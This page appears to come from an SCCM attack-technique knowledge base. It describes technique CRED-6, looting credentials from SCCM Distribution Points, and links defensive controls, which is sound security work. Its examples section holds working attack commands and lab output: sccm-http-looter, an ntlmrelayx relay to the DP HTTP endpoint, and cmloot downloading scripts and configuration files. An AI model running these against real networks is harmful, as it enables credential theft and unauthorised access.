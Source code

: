 # CRED-6

## Description

Loot domain credentials, SSH keys, and more from SCCM Distribution Points (DP)

## MITRE ATT&CK TTPs

- [TA0006 - Credential Access](https://attack.mitre.org/tactics/TA0006)
- [T1078.002 - Valid Accounts: Domain Accounts](https://attack.mitre.org/techniques/T1078/002/)

## Requirements

One or the other:

- Network access to SCCM Distribution Points (DP) SMB service

- Network access to SCCM Distribution Points (DP) HTTP service

- Credentials are likely to be required **but not always**

## Summary

SCCM distribution points (DPs) are the servers used by Microsoft MC/SCCM to host all the files used in software installs, patches, script deployments, etc. By default, these servers allow access via SMB (TCP/445) and HTTP/S (TCP/80 and/or TCP/443) and require some type of Windows authentication (i.e. NTLM).

IT professionals and software engineers have a tendency of hardcoding credentials in scripts, configuration files, software, etc.

Because of this, we can loot the SCCM DP and extract valid credentials as authenticated (and sometimes unauthenticated) attackers.

#### SMB

The `C:\SCCMContentLib` folder is shared via SMB as the `SCCMContentLib$` SMB share and is accessible to any member of the Domain Users or Domain Computers groups. The file structure of the `C:\SCCMContentLib` folder is explained [here](https://github.com/badsectorlabs/sccm-http-looter/blob/main/DEFCON32_RTV_How-Ludu-%20made-it-rain-creds-from-SCCM.pdf)

#### HTTP

The IIS web server hosted on the distribution point defines a virtual directory, `SMS_DP_SMSPKG$`, which maps to the `C:\SCCMContentLib` folder explained above. The web server will perform all the file structure processing for us, allowing to retrieve resources belonging to a package through HTTP (that are by default domain-authenticated with Kerberos/NTLM, as all interactions to fetch external resources from the distribution point).

URL format to list the subdirectories and files in a package: `http://<DP>/sms_dp_smspkg$/<PackageID>/`

Retrieving a file in a package: `http://<DP>/sms_dp_smspkg$/<PackageID>/<filename>`

## Impact

If anonymous authentication (no credentials required) is enabled, an internal attacker can dump the DP files and analyze its contents for valid credentials. NTLM relaying is still possible under proper conditions.

If authentication is required: An internal attacker can use existing credentials to authenticate to the SMB/HTTP services to loot the Distribution Points.

## Defensive IDs

- [PREVENT-10: Enforce the principle of least privilege for accounts](../../../defense-techniques/PREVENT/PREVENT-10/prevent-10_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples

#### HTTP DP Looting (Anonymous Authentication Enabled)

```bash
# Using Regular Method
┌──(.env)─(root㉿AR-kali)-[/opt/sccm-http-looter]
└─# ./sccm-http-looter -server 10.2.10.12
2024/08/15 22:47:57 INFO SCCM HTTP Looter by Bad Sector Labs (@badsectorlabs)
2024/08/15 22:47:57 INFO Getting Datalib listing from http://10.2.10.12:80/SMS_DP_SMSPKG$/Datalib...
2024/08/15 22:47:57 INFO Found 12 Directories in the Datalib
2024/08/15 22:47:57 INFO SCCM Looting complete!


# Using signature files to extract file names

┌──(.env)─(root㉿AR-kali)-[/opt/sccm-http-looter]
└─# ./sccm-http-looter -server 10.2.10.12 -use-signature-method
2024/08/15 22:48:02 INFO SCCM HTTP Looter by Bad Sector Labs (@badsectorlabs)
2024/08/15 22:48:02 INFO Getting Datalib listing from http://10.2.10.12:80/SMS_DP_SMSPKG$/Datalib...
2024/08/15 22:48:02 INFO SCCM Looting complete!
```

#### HTTP DP Looting (NTLMRelayx to HTTP endpoint)

Currently, you can use the following version of [impacket](https://github.com/ar0dd/impacket). There is a pending [Pull Request](https://github.com/fortra/impacket/pull/1790) (as of 14 August, 2024) to include this into the main `impacket` repository.

Just run your server and wait for authentication to take place.

```bash
└─# python3 examples/ntlmrelayx.py -t http://10.2.10.12/SMS_DP_SMSPKG$/Datalib --sccm --sccm-dp-dump -smb2support
Impacket v0.12.0.dev1+20240801.104651.6d8dd858 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.2.10.13, attacking target http://10.2.10.12
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.2.10.12 as LUDUS/SCCM-SQL$ SUCCEED
[*] Dumping SCCM Distribution Point Files
[*] Getting Datalib listing...
[*] Getting Datalib listing from http://10.2.10.12/SMS_DP_SMSPKG$/Datalib...
[*] Data saved to 10.2.10.12_sccm_dump/Datalib.txt
[*] Extracting file names from Datalib listing...
[*] Getting file signatures...
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from 10.2.10.13 controlled, but there are no more targets left!
[*] SCCM DP Looting complete!
```

#### SMB DP Looting (With Domain Credentials)

```bash
# Create a loot inventory for a specific Distribution Point (DP)
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser@10.2.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[+] Access to SCCMContentLib on 10.2.10.12
[+] sccmfiles.txt created

# Review + then download the sccmfiles contents
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser@10.2.10.12 -cmlootdownload sccmfiles.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['XML', 'INI', 'CONFIG', 'PS1', 'VBS']
[+] Already downloaded F906-ep_defaultpolicy.xml
[+] Already downloaded 7CEE-configure-baseline.ps1

# Analyze your loot
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# ls CMLootOut
7CEE-configure-baseline.ps1  F906-ep_defaultpolicy.xml
```

## References

- Tomas Rzepka, [Looting Microsoft Configuration Manager](https://rzec.se/blog/looting-microsoft-configuration-manager/)
- Tomas Rzepka, [CMLoot](https://github.com/1njected/CMLoot)
- Erik Hunstad, [sccm-http-looter](https://github.com/badsectorlabs/sccm-http-looter)
- Alberto Rodriguez, [ntlmrelayx](https://github.com/fortra/impacket/pull/1790)
- Quentin Roland, [sccmsecrets.py](https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial)
- Shelltrail [CMLoot.py](https://github.com/shelltrail/cmloot) & this [blog](https://www.shelltrail.com/research/cmloot/)
